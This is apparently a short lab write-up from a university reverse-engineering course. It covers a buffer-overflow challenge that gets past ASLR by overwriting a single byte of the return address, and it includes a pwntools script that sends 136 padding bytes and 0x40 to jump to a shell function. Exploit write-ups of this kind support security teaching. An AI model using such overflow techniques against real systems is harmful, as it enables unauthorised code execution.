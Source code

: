 ```yaml
---
layout: post
title:  UNIBUC_RE_lab_7_task_1
image: /assets/img/UNIBUC_RE.jpg
date:   2022-09-01 16:39:01
tags:
- pwn
description: ASLR challenge but functions are close to each other so you only need to replace 1 byte of the address
categories:
- UNIBUC RE
---
```


ASLR challenge but functions are close to each other so you only need to replace 1 byte of the address

As the description states you only need to replace one byte of return address to get to the shell function:

![](/assets/img/2022-09-02-15-24-31.png)

we need 0x40 as the last byte of the return address so our exploit is:

```
from pwn import *

from ctypes import *
e = ELF('./task01')

io=process('./task01')
gdb.attach(io,'break vuln')

io.send(136*b'x'+b'@')

io.interactive()

```
Note that we don't use sendline as it sends extra characters.